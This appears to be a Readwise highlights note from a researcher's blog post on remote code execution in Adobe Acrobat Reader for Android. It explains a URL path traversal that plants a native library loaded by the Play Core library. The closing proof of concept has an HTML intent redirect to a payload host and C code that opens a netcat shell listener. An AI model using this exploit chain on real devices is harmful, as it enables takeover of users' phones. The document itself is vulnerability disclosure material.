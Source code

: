 ```yaml
---
author: hulkvision.github.io
aliases:
  - RCE in Adobe Acrobat Reader for Android
tags:
  - readwise/articles
  - Android
  - Adobe-Acrobat
  - Adobe-Acrobat/Reader-Android
  - vulnerability-research/todo
url: https://hulkvision.github.io/blog/post1/
date: 2024-08-20
---
```

# RCE in Adobe Acrobat Reader for Android

![rw-book-cover](http://hulkvision.gitlab.io/featured-image.png)

## Highlights


> While testing Adobe Acrobat reader app , the app has a feature which allows user to open pdfs directly from http/https url. This feature was vulnerable to path traversal vulnerability. Abode reader was also using Google play core library for dynamic code loading. using path traversal bug and dynamic code loading,i was able to acheive remote code execution.
> [View Highlight](https://read.readwise.io/read/01j0qvjnzkq0wfn9gcrc15q0x6)



> When an intent with data url for example `http://localhost/test.pdf` is sent to adobe reader app,it downloads the file in `/sdcard/Downloads/Adobe Acrobat` folder with filename as LastPathSegment(i.e `test.pdf`) of the sent url.
> [View Highlight](https://read.readwise.io/read/01j0qvkzzqh8ef1f6bab3znv1y)



> For example let take this url `https://localhost/x/..%2F..%2Ffile.pdf` so when this url is passed to getLastPathSegment() method it will take `..%2F..%2Ffile.pdf` as last segment of the url and will return `../../file.pdf` as output.
> [View Highlight](https://read.readwise.io/read/01j0qy3q6571xtr2cykd0teyjw)



> # Getting RCE
>  Adobe Acrobat Reader app was using Google play core library to provide additional feature on the go to its users.
>  A simple way to know whether an app is using play core library for dynamic code loading is to check for `spiltcompat` directory in `/data/data/:application_id/files/` directory.
>  Using path traversal bug i can write an arbitrary apk in `/data/data/com.adobe.reader/files/splitcompat/1921618197/verified-splits/` directory of the app.The classes from the attacker’s apk would automatically be added to the ClassLoader of the app and malicious code will be executed when called from the app. For more detailed explanation read this [article](https://blog.oversecured.com/Why-dynamic-code-loading-could-be-dangerous-for-your-apps-a-Google-example/)
> [View Highlight](https://read.readwise.io/read/01j0qy5hw7rj9gd1ajnchf6ewj)



> play core library also provide feature of loading native code(.so files) from `/data/data/com.adobe.reader/files/splitcompat/:id/native-libraries/` directory.
>  `FASOpenCVDF.apk` module was also loading an native library from `/data/data/com.adobe.reader/files/splitcompat/1921819312/native-libraries/FASOpenCVDF.config.arm64_v8a` directory. I decided to take a look into `FASOpenCVDF.apk` source code and there i founded this module is also trying to load three unavailable libraries `libADCComponent.so`,`libColoradoMobile.so` and `libopencv_info.so` and this solved my issue of executing code remotely.
> [View Highlight](https://read.readwise.io/read/01j0qy7dfbatt1k8ng25mk69zr)



> # Proof of Concept
>  <html>
>  <title> RCE in Adobe Acrobat Reader for android </title>
>  <body>
>  <script>
>  window.location.href="intent://34.127.85.178/x/x/x/x/x/..%2F..%2F..%2F..%2F..%2Fdata%2Fdata%2Fcom.adobe.reader%2Ffiles%2Fsplitcompat%2F1921819312%2Fnative-libraries%2FFASOpenCVDF.config.arm64_v8a%2Flibopencv_info.so#Intent;scheme=http;type=application/*;package=com.adobe.reader;component=com.adobe.reader/.AdobeReader;end";
>  </script> 
>  </body>
>  </html>
>  #include <jni.h>
>  #include <stdio.h>
>  #include <stdlib.h>
>  #include <unistd.h>
>  JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
>  if (fork() == 0) {
>  system("toybox nc -p 6666 -L /system/bin/sh -l");
>  }
>  JNIEnv* env;
>  if (vm->GetEnv(reinterpret_cast<void**>(&env), JNI_VERSION_1_6) != JNI_OK) {
>  return JNI_ERR;
>  }
>  return JNI_VERSION_1_6;
>  }
> [View Highlight](https://read.readwise.io/read/01j0qy7vdvff1ndyjax6m7405j)

